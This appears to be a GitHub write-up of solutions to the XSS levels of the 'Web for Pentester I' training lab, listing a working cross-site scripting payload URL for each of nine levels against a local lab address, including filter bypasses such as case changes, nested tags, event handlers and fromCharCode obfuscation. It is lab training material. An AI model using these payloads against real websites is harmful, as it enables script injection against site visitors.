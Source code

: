 # Web-For-Pentester-I-XSS
==========Level 1==========<br />
`http://192.168.1.105/xss/example1.php?name=hacker<script>alert(1)</script>`<br />
<br />
==========Level 2==========<br />
`http://192.168.1.105/xss/example2.php?name=hacker<scriPt>alert(1)</scriPt>`<br />
<br />
==========Level 3==========<br />
`http://192.168.1.105/xss/example3.php?name=hacker<scri<script>pt>alert(1)</scri</script>pt>`<br />
<br />
==========Level 4==========<br />
`http://192.168.1.105/xss/example4.php?name=hacker<img src='zzzz' onerror='alert(1)'/> `<br />
`http://192.168.1.105/xss/example4.php?name=hacker<img src='zzzz' onmouseover='alert(1)'/> `<br />
<br />
==========Level 5==========<br />
`http://192.168.1.105/xss/example5.php?name=hacker<script>prompt(1);</script>`<br />
`http://192.168.1.105/xss/example5.php?name=hacker<script>confirm(1);</script>`<br />
`http://192.168.1.105/xss/example5.php?name=hacker<script>eval(String.fromCharCode(97, 108, 101, 114, 116, 40, 49, 41))</script>`<br />
<br />
==========Level 6==========<br />
**// Will make a comment line of source behind**<br />
http://192.168.1.105/xss/example6.php?name=hacker";alert(1);// `<br />
http://192.168.1.105/xss/example6.php?name=hacker";alert(1);"`<br />
<br />
==========Level 7==========<br />
`http://192.168.1.105/xss/example7.php?name=hacker';alert(1);//`<br />
`http://192.168.1.105/xss/example7.php?name=hacker';alert(1);'`<br />
<br />
==========Level 8==========<br />
_Attack in to action_<br />
`<form action="/xss/example8.php" method="POST"><br />
  Your name:<input type="text" name="name" /><br />
  <input type="submit" name="submit"/>`<br />
<br />
`http://192.168.1.105/xss/example8.php/"><script>alert(1)</script>`<br />
_It will become_<br />
`<form action="/xss/example8.php/"><script>alert(1)</script>" method="POST"><br />
  Your name:<input type="text" name="name" /><br />
  <input type="submit" name="submit"/><br />
`<br />
==========Level 9==========<br />
`http://192.168.1.105/xss/example9.php#hacker<script>alert(1)</script>`<br />
